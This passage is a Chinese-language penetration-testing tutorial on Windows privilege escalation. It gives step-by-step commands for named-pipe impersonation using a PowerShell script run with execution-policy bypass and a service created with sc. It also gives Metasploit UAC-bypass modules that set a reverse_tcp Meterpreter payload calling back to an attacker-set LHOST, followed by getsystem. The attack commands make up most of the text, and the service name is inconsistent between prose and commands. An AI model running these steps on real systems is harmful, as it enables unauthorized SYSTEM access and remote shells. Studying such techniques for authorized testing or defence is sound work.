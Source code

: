 > pipeserverimpersonate.ps1
> https://github.com/decoder-it/pipeserverimpersonate/blob/master/pipeserverimpersonate.ps1

1. 使用`administrator`用户通过`powershell`脚本创建一个命名管道

   ```shell
   powershell -ep bypass -f pipeserverimpersonate.ps1
   ```

   `Win7`查看命令管道，`Powershell`中输入如下命令：

   ```shell
   [System.IO.Directory]::GetFiles("\\.\\pipe\\")
   ```

   `Win7`及以上系统，查看命名管道还可以使用如下命令：

   ```shell
   # 返回对象列表
   get-childitem \\.\pipe\
   # 只显示名称
   (get-childitem \\.\pipe\).FullName
   ```

2. 在`administrator`用户权限下，创建一个服务`oo-pipe`

   ```shell
   sc create mingy-pipe binpath= "cmd /c echo test > \\.\pipe\oo"
   sc qc oo-pipe
   ```

3. 在`administrator`用户权限下，启动`oo-pipe`服务

   ```shell
   sc start mingy-pipe
   ```

### BypassUAC

> 提权命令执行失败，使用`bypassuac`模块绕过`UAC`

使用msf

```msf
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set LHOST=192.168.1.170
set session 1
exploit
```

通过`bypassUAC`获取的`session`可以看到依然是普通权限，可以执行`getsystem`进行提权至`system`权限

#### bypassuac_injection

```msf
use exploit/windows/local/bypassuac_injection
set payload windows/meterpreter/reverse_tcp
set LHOST=192.168.1.170
set session 1
exploit
getuid
getsystem
```
